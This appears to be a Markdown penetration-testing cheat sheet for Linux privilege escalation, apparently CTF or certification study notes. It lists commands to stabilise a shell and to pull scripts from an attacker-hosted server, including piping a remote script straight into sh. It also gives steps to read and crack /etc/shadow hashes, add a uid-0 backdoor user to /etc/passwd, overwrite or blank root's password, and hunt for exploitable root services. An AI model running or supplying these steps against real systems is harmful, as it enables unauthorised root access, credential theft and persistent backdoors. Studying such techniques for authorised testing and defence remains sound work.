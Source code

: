 ## File Transfer to Linux 
0.`python3 -c 'import pty; pty.spawn("/bin/bash")'` `export TERM=xterm-256color` Stabalize shell \
1.`python3 -m http.server 8080` `or( 80)`
2.`cd /tmp` move directory where we have write access.
4.`wget http://$myIP:8080/linEum.sh .` \
7.Or manually download the latest linpeas https://github.com/carlospolop/PEASS-ng/releases/tag/20221225



## Privilege Escalation for Linux
0. `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh` which would execute script (run from cd /tmp)
1. `chmod +x linpeas.sh` and `./linpeas.sh`
2. `wget "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh" -O lse.sh;chmod 700 lse.sh (use lin enum smart)`
3. or `curl "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh" -Lo lse.sh;chmod 700 lse.sh`
4. For linSmart start with `./lse.sh -i` then `./lse.sh -i -l 1` and `./lse.sh -i -l 2` for more verbosity.  




### Weak File Permission
1. ***Readable weak file Permission*** `ls -l /etc/shadow` manually check if it is readable or writable
2.  the root user hash. Hash is from start of first : and before :
3.  echo `'<HASH> >' hash.txt`
4.  `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` crack the hash. If you know the type of encrtyption add e.g `--format=sha512crypt`
5.  switch to root user using `su`
6.  ***Writable weeak file permission***
```
openssl passwd evil
echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2

```
or
```
mkpasswd -m sha-512 newpassword 
$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/
subl /etc/shadow # Copy the hash in to root and leave others.
root:$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/:17298:0:99999:7:::
su 
```
7. `root::0:0:root:/root:/bin/bash` Without the `x` after root, means there is no password. `su`
8. ***Backup files in interesting locations***
9.   Refer to the link to see if any files are differernt/stands out https://linuxhandbook.com/linux-directory-structure/ from the below command
10.   `ls -la /home/user`  `ls -la /` `ls -la /tmp` `ls -la /var/backups`
### Service Exploit
1.   If there is some unusual service, look for version numbers and look in searchsploit, google, github
2.   `ps aux | grep "^root"` show all processes running as root.
3.   `./lse.sh -i -l 1`and see services running with root
4.   `<program> --version` or  `dpkg -l | grep <program>` for debian or  `rpm –qa | grep <program>` for rpm. Enumerate version to exploit.
